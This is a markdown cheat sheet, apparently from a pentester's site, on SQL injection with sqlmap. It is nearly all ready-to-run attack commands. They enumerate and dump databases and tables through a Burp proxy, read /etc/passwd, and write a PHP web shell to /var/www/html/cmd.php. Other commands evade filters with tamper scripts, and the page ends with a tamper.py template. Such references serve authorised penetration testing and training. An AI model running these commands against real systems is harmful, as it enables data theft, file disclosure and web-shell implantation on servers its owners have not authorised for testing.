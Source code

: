```yaml
---
title: "SQL Injection"
date: 2025-7-15
tags: ["SQL", "SQL Injection", "MySQL", "Sqlmap", "Nosql", "Sqlite", "SQLi", "Burpsuite", "Database Dumping", "Database"]
---
```


{{< tab set1 tab1 >}}sqlmap{{< /tab >}}
{{< tabcontent set1 tab1 >}}


#### 1. Copy HTTP Request

```console
+---------------------------------------------------------------+
| In Burp Suite => Right click request => Select `copy to file` |
| Add `*` to the SQL injection point                            |
+---------------------------------------------------------------+
```

#### 2. Initial Enum

```console
# HTTP
sqlmap -r request --batch --banner --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10
```

```console
# HTTPS
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --force-ssl
```

```console
# String to match when query is evaluated to True
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --string '<STRING>'
```

```console {class="sample-code"}
# e.g. `Invalid User` vs 500 Internal Server Error 
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --string 'Invalid User'
```

```console
# Specify Technique
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --technique <TECHNIQUE>
```

<br>

```console
+------------------------+
| B: Boolean-based blind |
| E: Error-based         |
| U: Union query-based   |
| S: Stacked queries     |
| T: Time-based blind    |
| Q: Inline queries      |
+------------------------+
```

#### 3. Database Enum

```console
# Get Databases
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --dbs
```

```console
# Get Tables
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --tables
```

```console
# Dump Table
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> -T <TABLE_NAME> --dump
```

```console
# Dump All Tables (Slow)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --dump
```

#### 4. Advance

```console
# File Read
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-read <FILE>
```

```console {class="sample-code"}
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-read /etc/passwd
```

```console 
# File Write
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-write <FILE> --file-dest <FILE_DEST>
```

```console {class="sample-code"}
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-write ./cmd.php --file-dest /var/www/html/cmd.php
```

```console
# Add Payload Tampering Script
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --tamper <TAMPER_SCRIPT>
```

```console {class="sample-code"}
# e.g. randomcase
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --tamper randomcase
```

```console
# Check Privileges
sqlmap -r request --privileges
```

#### tamper.py Template

```python
#!/usr/bin/env python3

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload
```

<small>*Note: Create an empty \_\_init\_\_.py in the same folder*</small>

{{< /tabcontent >}}